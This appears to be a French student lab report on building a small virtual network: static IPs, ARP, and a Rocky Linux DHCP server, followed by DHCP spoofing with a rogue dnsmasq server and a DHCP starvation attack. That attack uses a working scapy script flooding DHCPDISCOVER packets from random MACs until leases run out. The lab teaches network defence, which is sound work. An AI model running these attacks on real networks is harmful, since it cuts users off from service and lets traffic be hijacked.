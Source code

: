 **1. Configuration d'un réseau local simple
Trouver les adresses MAC des machines
Pour vérifier l'adresse MAC de chaque machine :**

```PC1> show ip```
```
NAME        : PC1[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:00
LPORT       : 20002
RHOST:PORT  : 127.0.0.1:20003
MTU         : 1500
```
*Adresse MAC de PC1 : 00:50:79:66:68:00*


```PC2> show ip```

```
NAME        : PC2[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:01
LPORT       : 20004
RHOST:PORT  : 127.0.0.1:20005
MTU         : 1500
```
*Adresse MAC de PC2 : 00:50:79:66:68:01*

**Attribuer des adresses IP manuellement
Pour donner une IP à chaque machine :**

```PC1> ip 10.1.1.1/24```
```
Checking for duplicate address...
PC1 : 10.1.1.1 255.255.255.0
```

```PC2> ip 10.1.1.2/24```
```
Checking for duplicate address...
PC2 : 10.1.1.2 255.255.255.0
```
**Tester la communication entre les machines
Avec la commande ping :**

```PC1> ping 10.1.1.2```
```
84 bytes from 10.1.1.2 icmp_seq=1 ttl=64 time=0.302 ms
84 bytes from 10.1.1.2 icmp_seq=2 ttl=64 time=1.539 ms
84 bytes from 10.1.1.2 icmp_seq=3 ttl=64 time=1.405 ms
84 bytes from 10.1.1.2 icmp_seq=4 ttl=64 time=1.170 ms
84 bytes from 10.1.1.2 icmp_seq=5 ttl=64 time=0.281 ms
```

```PC2> ping 10.1.1.1```
```
84 bytes from 10.1.1.1 icmp_seq=1 ttl=64 time=0.185 ms
84 bytes from 10.1.1.1 icmp_seq=2 ttl=64 time=0.165 ms``
84 bytes from 10.1.1.1 icmp_seq=3 ttl=64 time=0.367 ms
84 bytes from 10.1.1.1 icmp_seq=4 ttl=64 time=0.606 ms
84 bytes from 10.1.1.1 icmp_seq=5 ttl=64 time=0.453 ms
```

**Vérifier les adresses avec ARP**

```PC1> arp ```         
```
00:50:79:66:68:01  10.1.1.2 expires in 108 seconds
```

```PC2> arp```
``` 
00:50:79:66:68:00  10.1.1.1 expires in 106 seconds
```

**2. Ajouter un switch et une troisième machine**

```PC3> ip 10.1.1.3```
```
Checking for duplicate address...
PC3 : 10.1.1.3 255.255.255.0
```

**3. Installer un serveur DHCP**

**Donner un accès Internet à la machine dhcp.tp1.efrei**
```
[toto@efrei-xmg4agau1 ~]$ ping google.com
PING google.com (216.58.214.174) 56(84) bytes of data.
64 bytes from mad01s26-in-f174.1e100.net (216.58.214.174): icmp_seq q = 1 ttl I = 63 time 37.0 ms
64 bytes from par10s42-in-f14.1e100.net (216.58.214.174): icmp_seq=2 ttl I = 63 time=29.4 ms
```

**Installer et configurer un serveur DHCP**


je me suis aidé de ce tuto https://gitlab.com/it4lik/b2-network-virt/-/blob/main/memo/rocky_network.md
```
dnf-y install dhcp-server
vi /etc/dhcp/dhcpd.conf
systemctl enable --now dhcpd
```

```
authoritative;
subnet 10.1.1.0 netmask 255.255.255.0 {
	range 10.1.1.10 10.1.1.50;
	option broadcast-address 10.1.1.1;
	option routers 10.1.1.1;
}
```
**Récupérer une IP automatiquement depuis les 3 nodes**

```
PC1> dhcp
DORA IP 10.1.1.10/24 GW 10.1.1.1

PC1> show ip

NAME        : PC1[1]
IP/MASK     : 10.1.1.10/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 563, 570/285/498
MAC         : 00:50:79:66:68:01
LPORT       : 20007
RHOST:PORT  : 127.0.0.1:20008
MTU         : 1500
```

```
PC2> dhcp
DDORA IP 10.1.1.12/24 GW 10.1.1.1

PC2> show ip

NAME        : PC2[1]
IP/MASK     : 10.1.1.12/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 594, 599/299/524
MAC         : 00:50:79:66:68:00
LPORT       : 20009
RHOST:PORT  : 127.0.0.1:20010
MTU         : 1500
```

```
PC3> dhcp
DDORA IP 10.1.1.11/24 GW 10.1.1.1

PC3> show ip

NAME        : PC3[1]
IP/MASK     : 10.1.1.11/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 584, 599/299/524
MAC         : 00:50:79:66:68:02
LPORT       : 20011
RHOST:PORT  : 127.0.0.1:20012
MTU         : 1500
```


**4 DHCP spoofing**

Installation de dnsmasq

```
dnf install -y dnsmasq
```

Configuration de dnsmasq

```
port=0 # pour désactiver DNS
dhcp-range=10.1.1.210,10.1.1.250,255.255.255.0,12h
dhcp-authoritative
interface=enp0s3
```
**TEST**
```
PC4> dhcp
DDORA IP 10.1.1.248/24 GW 10.1.1.50
```

```
PC4> show ip

NAME        : PC4[1]
IP/MASK     : 10.1.1.248/24
```
```
PC2> dhcp
DDORA IP 10.1.1.246/24 GW 10.1.1.50
```
```
PC3> dhcp
DDORA IP 10.1.1.247/24 GW 10.1.1.50
```
```
PC4> dhcp
DORA IP 10.1.1.21/24 GW 10.1.1.1
```

**5 DHCP starvation**

*je vais utilsier le script de cette video*  https://www.youtube.com/watch?v=VW0szfPHeo0&ab_channel=DavidBombal

```
from scapy.all import *

conf.checkIPaddr = False

dhcp_discover = Ether(dst='ff:ff:ff:ff:ff:ff',src=RandMAC()) \
				/IP(src='0.0.0.0',dst='255.255.255.255') \
				/UDP(sport=68,dport=67) \
				/BOOTP(op=1,chaddr = RandMAC()) \
				/DHCP(options=[('message-type','discover'),('end')])

sendp(dhcp_discover,iface='wlp4s0',loop=1,verbose=1)
```
**Effet de l'attaque**
Après avoir lancé le script :
•	Le serveur DHCP est à court d'adresses disponibles :

```DHCPDISCOVER from 64:38:3a:61:38:3a via enp0s3 network 10.1.1.0/24: no free leases ```

•	Les machines ne peuvent plus obtenir d’IP avec dhcp.




